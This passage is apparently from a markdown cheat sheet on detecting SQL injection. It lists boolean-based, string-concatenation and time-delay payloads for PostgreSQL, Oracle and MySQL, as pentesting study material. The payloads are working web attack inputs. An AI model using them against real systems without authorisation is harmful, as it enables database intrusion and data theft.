 * **Example scenario:** If the original response and the response from (1=1) payload are the **same** but when injecting the (1=2) payload there's a **difference** comparing to the original response, then the field may be susceptible to SQLi. 

    * ' and 1=1--

    * ' and '1'='1

    * ' and 1=2--

    * ' and '1'='2


<br>

#### String Concatenation

* Another technique we can use to identify SQLi, is String Concatenation: 

1. The original parameter/value:

    * ?category=Gifts

1. Use String Concatenation that will resolve to the original value:

    * ?category=Gift'||'s

1. Use String Concatenation that will not resolve to the original value:

    * ?category=Gift'||'sss


* If the 1st and 2nd payloads result in the same response, but the 1st and 3rd don't, then the field may be vulnerable to SQLi.


**Sometimes our injected input may be reflected in the response.  So, the response size may differ slightly even if they return the same data.**

<br>

#### Time-Delay Payloads

* We can also inject Time-Delay payloads in the input fields.  If the application has a notable delay in its response from the normal time, then the input field may be vulnerable to SQLi:

    * PostgreSQL:
    
        * ; select pg_sleep(10)--

    * Oracle DB:
        
        * '||(select dbms_pipe.receive_message(('a'),10) from dual)||'

    * MySQL:
    
        * ;select sleep(10)--


<br>

#### Out of Band Techniques

* [Payloads](#sqli-out-of-band-interaction)
